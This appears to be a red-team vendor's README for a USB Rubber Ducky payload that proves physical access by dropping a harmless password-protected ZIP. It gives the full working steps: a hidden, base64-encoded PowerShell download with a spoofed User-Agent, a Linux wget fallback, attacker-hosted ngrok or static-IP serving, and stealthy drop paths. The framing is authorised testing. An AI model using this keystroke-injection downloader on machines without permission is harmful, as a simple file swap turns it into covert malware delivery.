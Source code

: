 
# 🦙 Sec-Llama Physical Penetration Proof Drop  
**Rubber Ducky Payload for Clean Proof of Physical Access**  
Version: 2025  
Author: sec-llama.com

---

## 📘 Overview

This project demonstrates a safe, ethical, and professional method to prove physical access during a Red Team or Physical Penetration Test by:
- Dropping a password-protected ZIP file on the target machine.
- Using a stealthy Rubber Ducky payload compatible with both Windows and Linux.
- Leaving no malware, backdoors, or harmful code — just clear proof of access.

---

## 🛠️ Requirements

**Hardware:**
- New Rubber Ducky (2025 version)  
- Target computer running Windows or Linux

**Software:**
- `zip` utility (Linux/Mac)  
- `ngrok` **OR** router port-forwarding with static IP  
- Python 3 (for simple HTTP server)

---

## 📂 Project Structure

```
proof/
├── proof.txt          # Statement of access
├── README.txt         # For the client (non-technical)
└── proof.zip          # Encrypted archive (final payload)
```

---

## 📦 Step 1: Create the Locked ZIP (On Linux)

1. Create the proof text files:
```bash
echo "Sec Llama Was Here. Physical Penetration Test successful. Date: 2025-05-15" > proof.txt

cat <<EOF > README.txt
This file was dropped during a physical penetration test performed by Sec-Llama (sec-llama.com).

No malicious payloads were used.
No files were modified or exfiltrated.
This ZIP serves only as proof of physical access.

Sec Llama Was Here.

The password will be shared in the final report.
You may verify the drop location and hash for authenticity.
EOF
```

2. Create the password-protected ZIP:
```bash
zip -e proof.zip proof.txt README.txt
```
> Use password: `SecLlama2025!`

---

## 🌐 Step 2: Host the ZIP File (Two Options)

### Option A: ngrok (recommended for stealth)
```bash
python3 -m http.server 8443
ngrok http 8443
```
Use the generated HTTPS URL like:  
`https://fancy-subdomain.ngrok.io/proof.zip`

### Option B: Static IP (router port forwarding)
If using a static IP and port forwarding:
```bash
python3 -m http.server 8443 --bind 0.0.0.0
```
Access the file via:  
`http://YOUR_STATIC_IP:8443/proof.zip`

---

## 🦆 Step 3: Encode PowerShell Command (from Linux)

1. Write your PowerShell command:
```powershell
Invoke-WebRequest -Uri 'https://your-url.com/proof.zip' -OutFile $env:APPDATA\Microsoft\Edge\profiles\proof.zip -Headers @{'User-Agent'='Mozilla/5.0'}
```

2. Encode it from Linux:
```bash
echo -n "Invoke-WebRequest -Uri 'https://your-url.com/proof.zip' -OutFile `$env:APPDATA\Microsoft\Edge\profiles\proof.zip` -Headers @{'User-Agent'='Mozilla/5.0'}" | iconv -f UTF-8 -t UTF-16LE | base64
```

Copy the Base64 output for use in the payload.

---

## 💣 Step 4: Final Cross-Platform Rubber Ducky Payload

This single script will attempt both Windows and Linux file drops:

```ducky
REM === WINDOWS DROP ===
DELAY 2000
WINDOWS r
DELAY 500
STRING powershell -WindowStyle Hidden -EncodedCommand <BASE64_STRING_HERE>
ENTER

REM === LINUX DROP (if Windows failed) ===
DELAY 4000
CTRL ALT t
DELAY 1000
STRING wget https://your-url.com/proof.zip -O /tmp/proof.zip
ENTER
```

- Replace `<BASE64_STRING_HERE>` with your encoded PowerShell string.
- Replace `https://your-url.com/proof.zip` with either your ngrok URL or static IP + port.

Save this as `inject.txt` and encode to `.bin` using [Rubber Ducky Encoder](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payload-Encoder).

---

## 📁 Drop Locations

| OS     | File Path                                 |
|--------|--------------------------------------------|
| Windows | `%APPDATA%\Microsoft\Edge\profiles\proof.zip` |
| Linux   | `/tmp/proof.zip`                          |

These paths are low-visibility but easy to validate.

---

## ✅ Notes

- Clean, safe, and non-malicious.
- Stealthy ZIP drop leaves clear Red Team signature.
- File is encrypted and contains only text-based proof.
- Works on both Windows and Linux targets.

---

## 📞 Contact

**Sec-Llama Red Team**  
🔗 https://sec-llama.com  
📧 contact@sec-llama.com
